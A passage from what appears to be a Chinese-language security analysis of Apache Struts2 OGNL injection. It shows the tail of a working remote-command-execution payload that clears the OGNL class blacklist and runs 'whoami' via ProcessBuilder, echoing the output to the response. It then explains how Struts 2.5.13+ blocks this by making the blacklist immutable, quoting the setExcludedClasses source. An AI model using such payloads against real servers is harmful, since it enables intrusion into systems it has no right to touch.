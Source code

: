 ```

(#ognlUtil.getExcludedClasses().clear()).

(#context.setMemberAccess(#dm))

)).

(#cmd='whoami').

(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).

(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd`}`)).

(#p=new java.lang.ProcessBuilder(#cmds)).

(#p.redirectErrorStream(true)).

(#process=#p.start()).

(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).

(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).

(#ros.flush())

`}`
```

最开始的 #_=’multipart/form-data’ 是为了满足触发漏洞的要求，接下来就是将 DefaultMemberAccess 存入 OgnlContext 上下文环境中，接着一个三目运算符主要为了适配低版本中可以直接取到 _memberAccess 对象，取不到就按前面绕过的形式将黑名单清空并将 DefaultMemberAccess 设为默认安全策略。接下来就是执行命令并输出了。

接着在 Struts2.5.13+ 中，excludedClasses 等黑名单集合设为不可变集合（从 struts 2.5.12 开始就不再可变）通过前面 PoC 中的 clear 函数来清除数据会抛出异常：java.lang.UnsupportedOperationException at java.util.Collections$UnmodifiableCollection.clear 。同时 struts 2.5.13 使用的 ognl-3.1.15.jar 包中 OgnlContext 不再支持使用 #context 获取上下文环境。

com.opensymphony.xwork2.ognl.OgnlUtil#setExcludedClasses : 

```
public void setExcludedClasses(String commaDelimitedClasses) `{`

Set&lt;String&gt; classNames = TextParseUtil.commaDelimitedStringToSet(commaDelimitedClasses);

Set&lt;Class&lt;?&gt;&gt; classes = new HashSet();

Iterator i$ = classNames.iterator();

while(i$.hasNext()) `{`

String className = (String)i$.next();

try `{`

classes.add(Class.forName(className));

`}` catch (ClassNotFoundException var7) `{`

throw new ConfigurationException("Cannot load excluded class: " + className, var7);

`}`

`}`

this.excludedClasses = Collections.unmodifiableSet(classes);

`}`
```